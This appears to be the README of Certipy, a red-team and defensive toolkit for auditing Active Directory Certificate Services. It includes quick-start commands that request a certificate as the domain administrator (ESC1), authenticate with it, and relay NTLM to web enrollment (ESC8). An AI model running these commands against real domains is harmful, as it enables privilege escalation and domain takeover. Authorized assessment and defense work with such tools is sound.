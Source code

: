 # Certipy - AD CS Attack & Enumeration Toolkit

[![PyPI version](https://badge.fury.io/py/certipy-ad.svg)](https://badge.fury.io/py/certipy-ad)
![Python](https://img.shields.io/badge/python-3.12+-blue.svg)
![License](https://img.shields.io/github/license/ly4k/Certipy)

**Certipy** is a powerful offensive and defensive toolkit for enumerating and abusing Active Directory Certificate Services (AD CS). It helps red teamers, penetration testers, and defenders assess AD CS misconfigurations — including full support for identifying and exploiting all known **ESC1–ESC15** attack paths (excluding ESC5).

> [!WARNING]
> Use only in environments where you have explicit authorization. Unauthorized use may be illegal.

---

## 🔍 Features

- 🔎 Discover Enterprise Certificate Authorities and Templates
- 🚩 Identify misconfigurations (e.g., ESC1–ESC15)
- 🔐 Request and forge certificates
- 🎭 Perform authentication using certificates (PKINIT/Schannel)
- 📡 Relay NTLM authentication to AD CS HTTP/RPC endpoints
- 🧪 Support for Shadow Credentials, Golden Certificates, and Certificate Mapping Attacks

---

## 📚 Full Wiki & Documentation

Read the full **step-by-step usage guide**, including installation, vulnerability explanations, examples, and mitigations in the [📘 Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## ⚙️ Installation

Certipy supports **Python 3.12+** on both **Linux** and **Windows**. Linux is the primary supported platform, but core functionality works on Windows as well.

> [!TIP]
> **For Kali Linux Users**  
> Certipy is pre-installed in Kali under the command name `certipy-ad`.  
> The Kali package is **not maintained by the original author** and may **lag behind the latest version**.  
> For the latest features and fixes, install from PyPI manually using `pip`.

### 🐧 Linux (Debian/Ubuntu/Kali)

```bash
sudo apt update && sudo apt install -y python3 python3-venv python3-pip
python3 -m venv ~/certipy-env
source ~/certipy-env/bin/activate
pip install --upgrade pip
pip install certipy-ad
````

### 🪟 Windows (PowerShell)

```powershell
python -m venv certipy-env
certipy-env\Scripts\Activate.ps1
pip install --upgrade pip
pip install certipy-ad
```

Verify installation:

```bash
certipy -h
```

---

## 🚀 Quick Start

### Enumerate CAs and Templates

```bash
certipy find -u 'user@corp.local' -p 'Passw0rd!' -dc-ip 10.0.0.100
```

### Request a Certificate for Another User (ESC1-style)

```bash
certipy req -u 'user@domain.local' -p 'Passw0rd!' \
  -ca 'CORP-CA' -target 'CA.CORP.LOCAL' \
  -template 'ESC1' \
  -upn 'administrator@corp.local' \
  -sid 'S-1-5-21-2328196741-663698128-2762965104-500' \
  -dc-ip 10.0.0.100
```

### Authenticate with a Certificate

```bash
certipy auth -pfx ./administrator.pfx -dc-ip 10.0.0.100
```

### NTLM Relay to AD CS Web Enrollment (ESC8)

```bash
certipy relay -ca http://ca.corp.local -template DomainController
```

---

## ✅ Supported ESC Vulnerabilities

Certipy provides comprehensive support for detecting and exploiting AD CS vulnerabilities **ESC1 – ESC15** (excluding ESC5)

For detailed explanations, exploitation steps, and mitigation strategies, refer to the [Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## 📎 Related Tools & References

* 📘 [Certified Pre-Owned – SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* 🔭 [BloodHound PKI Attack Paths](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-1-799f3d3b03cf)
* 🛡️ [Microsoft AD CS Hardening Guide](https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-prevent-users-request-certificate)

---

## 🛡️ Disclaimer

This tool is designed exclusively for use in **authorized penetration testing**, **red teaming**, **security assessments**, and **security research**. **Do not use** in environments where you do not have **explicit written permission**. Unauthorized use may violate laws and ethical standards.

---

## 🤝 Contributing

Contributions are welcome! See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines on reporting issues, improving documentation, or submitting pull requests.

---

## 🌟 Sponsors

Thanks to these generous sponsors for supporting the development of this project. Your contributions help sustain ongoing work and improvements.

<!-- sponsors --><!-- sponsors -->

---

## 👤 Author

Developed by [@ly4k](https://github.com/ly4k)
Contributions welcome via pull requests or issues.

---

## 📘 Wiki

📖 Visit the [**Certipy Wiki**](https://github.com/ly4k/Certipy/wiki) for detailed documentation, usage examples, ESC vulnerability breakdowns, and mitigation advice.
